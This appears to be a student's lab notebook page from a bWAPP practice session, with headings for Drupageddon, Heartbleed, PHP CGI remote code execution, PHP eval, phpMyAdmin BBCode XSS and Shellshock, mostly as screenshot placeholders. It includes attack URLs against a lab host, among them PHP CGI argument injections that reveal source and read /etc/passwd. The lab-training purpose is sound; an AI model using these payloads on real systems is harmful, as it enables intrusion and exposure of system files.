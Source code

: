 ![[Pasted image 20241015092508.png]]
# Drupal SQL Injection (Drupageddon)
![[Pasted image 20241015092656.png]]반응 없음
![[Pasted image 20241015092750.png]]

# Heartbleed Vulnerability
![[Pasted image 20241015093058.png]]

# PHP CGI Remote Code Execution
- [[CGI]]
![[Pasted image 20241015093208.png]]
![[Pasted image 20241015093822.png]]
http://59.23.133.107/bWAPP/admin/phpinfo.php
![[Pasted image 20241015093938.png]]
![[Pasted image 20241015094010.png]]
http://59.23.133.107/bWAPP/admin/?-s
http://59.23.133.107/bWAPP/admin/?-d+auto_prepend_file%3d/etc/passwd
![[Pasted image 20241015095033.png]]
# PHP Eval Function
![[Pasted image 20241015101445.png]]
- code 인젝션과 같다.

# phpMyAdmin [[BBCode]] Tag XSS
![[Pasted image 20241015101748.png]]
![[Pasted image 20241015101927.png]]
http://59.23.133.107/phpmyadmin/error.php
![[Pasted image 20241015102008.png]]
http://59.23.133.107/phpmyadmin/error.php?error=a
![[Pasted image 20241015102214.png]]

# Shellshock Vulnerability (CGI)
![[Pasted image 20241015102511.png]]
![[Pasted image 20241015103505.png]]
![[Pasted image 20241015103545.png]]
![[Pasted image 20241015103908.png]]